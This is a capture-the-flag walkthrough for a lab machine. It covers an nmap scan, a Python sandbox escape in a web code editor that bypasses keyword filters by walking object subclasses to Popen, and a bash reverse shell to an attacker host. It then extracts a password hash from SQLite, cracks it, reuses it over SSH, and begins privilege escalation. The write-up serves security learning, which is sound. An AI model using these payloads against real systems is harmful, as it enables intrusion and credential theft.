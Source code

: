 ```
──(kali㉿kali)-[~]
└─$ nmap -sV 10.10.11.62             
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-27 06:29 EDT
Nmap scan report for 10.10.11.62
Host is up (0.64s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.30 seconds

```

- The port 5000 is open and running Gunicorn 20.0.4
- visiting the website gives a code editor
- some of the keywords are restricted,  like import, os, subprocess this prevent from accessing the shell.
- there are option to run and save the codes.
- Now i some how have to see all the available subclasses of object i can use.
- `print([1,2,3].__class__)` gives me the class of the list in python
- if i can some how use popen which is used to execute commands in a new process.
- i can't use the import so i have to use it the hard way.
- `print((()).__class__.__bases__[0].__subclasses__())`. The bases give a tuple which contain class object. subclasses function of object gives me all the available subclasses i can use.
- This results in a tuple i have to find the index of popen from this. The output can not be completely seen in the editor so  i intercepted the request and copied all to the terminal. finding the index of subprocess popen was easy by using the Ctrl + F in a text editor.
- Using this popen we can get a reverse shell : `nc -lvnp 4444`
- First start a netcat listner: 
```
print([].__class__.__bases__[0].__subclasses__()[317](
    "bash -c 'bash -i >& /dev/tcp/10.10.16.86/4444 0>&1'", shell=True, stdout=-1).communicate())
```
- With that i got a reverse shell!. But it took me a lot of research especially in python sandbox escape.
- There user.txt can use seen by going back a directory.
- inside the `instance` folder there is a database.db open it with sqlite `sqlite3 database.db`
- There is user martin and his password hash in the database.
- cracking the hash with crackstation the password is obtained. 
- The same user is in the system when i look in `/etc/passwd`
- The credentials can be used to ssh into this machine.
- Now in order to get the root flag i need to privilege escalate.
- A file is found in /usr/bin/backey.sh which seems to have root level execution permission and can be run by this user martin.